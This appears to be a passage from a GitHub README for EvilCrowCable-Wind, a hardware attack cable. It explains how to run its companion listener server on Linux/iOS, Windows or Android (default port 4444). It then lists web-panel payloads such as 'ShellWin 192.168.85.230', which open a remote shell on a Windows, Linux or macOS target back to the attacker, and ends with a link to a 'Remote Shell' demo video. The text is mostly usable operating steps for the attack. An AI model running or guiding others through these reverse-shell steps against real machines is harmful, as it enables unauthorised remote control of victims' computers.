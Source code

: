 * Linux and iOS: evilcrow-server.py --port {PORT} --target {windows, linux or mac}
* Android: evilcrow-server.apk (Install the APK on an android phone. Default port 4444)
* Windows: evilcrow-server.exe --port {PORT}

## Linux/iOS Server

1. Run evilcrow-server.py to start the attack:

	* Windows Target: python evilcrow-server.py --port 4444 --target windows
	* Linux Target: python evilcrow-server.py --port 4444 --target linux
	* MacOS Target: python evilcrow-server.py --port 4444 --target macos
	
![Server](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/server.png)

2. Go to the web panel and type the following payload from Live Payload:

	* Windows Target: ShellWin "Evil Crow server IP" (example: ShellWin 192.168.85.230)
	* Linux Target: ShellNix "Evil Crow server IP" (example: ShellNix 192.168.85.230)
	* MacOS Target: ShellMac "Evil Crow server IP" (example: ShellMac 192.168.85.230)
	
3. Click on 'Run Payload'.

## Windows Server

1. Run evilcrow-server.exe to start the attack:

	* Windows, Linux or MacOS Target: evilcrow-server.exe --port 4444

2. Go to the web panel and type the following payload from Live Payload:

	* Windows Target: ShellWin "Evil Crow server IP" (example: ShellWin 192.168.85.230)
	* Linux Target: ShellNix "Evil Crow server IP" (example: ShellNix 192.168.85.230)
	* MacOS Target: ShellMac "Evil Crow server IP" (example: ShellMac 192.168.85.230)
	
3. Click on 'Run Payload'.

![Server](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/server-windows.png)

## Android Server

1. Open Evil Crow Server APP

2. Go to the web panel and type the following payload from Live Payload:

	* Windows Target: ShellWin "Evil Crow server IP" (example: ShellWin 192.168.85.230)
	* Linux Target: ShellNix "Evil Crow server IP" (example: ShellNix 192.168.85.230)
	* MacOS Target: ShellMac "Evil Crow server IP" (example: ShellMac 192.168.85.230)

3. Click on 'Run Payload'.

![Server](https://github.com/joelsernamoreno/EvilCrowCable-Wind/blob/main/images/server-android.jpg)

**Demo:** [Remote Shell](https://www.youtube.com/watch?v=FmkIHYdOxS4)

